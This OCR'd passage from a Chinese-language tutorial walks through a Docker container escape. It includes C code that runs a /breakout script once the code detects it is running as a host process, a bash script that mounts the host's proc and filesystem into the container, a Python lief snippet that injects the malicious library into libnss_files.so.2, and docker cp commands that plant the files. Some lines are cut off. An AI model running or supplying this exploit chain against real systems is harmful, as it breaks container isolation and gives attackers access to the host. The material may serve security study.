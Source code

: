 ```c
        // child process
        argv_break[0] = strdup("/breakout");
        argv_break[1] = NULL;
        execve("/breakout", argv_break, NULL);
    }
    else {
        wait(NULL);
    }
    return;
}

// 通过检查容器中 /proc/self/exe 是否存在来判断是否为宿主机进程（特权进程）
bool is_priviliged() {
    FILE *proc_file_in_cnt = fopen("/proc/self/exe", "r");
    // process in conainer
    if (proc_file_in_cnt != NULL) {
        fclose(proc_file_in_cnt);
        return false;
    }
    // process in host
    return true;
}
```
```bash
gcc -shared -fPIC /tmp/evil.c -o /tmp/evil.out
```

2. 编写所要执行的恶意代码脚本 breakout，这里的逃逸效果选择将宿主机文件系统挂载到容器中
```c
#!/bin/bash
umount /host_proc; rm -rf /host_proc
umount /host_fs; rm -rf /host_fs

mkdir /host_proc
mount -t proc none /host_proc
cd /host_proc/1/root

mkdir /host_fs
mount --bind 
```

3. 将恶意库文件注入到 libnss_files-xx.so 中
```python
import lief

lib_file = lief.parse("")
lib_file.add_library("/tmp/evil.out")
lib_file.write("/tmp/libnss_files.so.2")
```

4. 将注入好的恶意库文件，所调用的 evil.out 库文件，breakout 逃逸脚本保存在容器中（当然也可以直接在容器中进行 1/2 两步）
```bash
docker cp /tmp/evil.out [cnt-id]:/tmp/
docker cp /tmp/libnss_files.so.2 [cnt-id]:/lib/x86_64-linux-gnu/
docker cp /tmp/breakout [cnt-id]:/tmp/
```
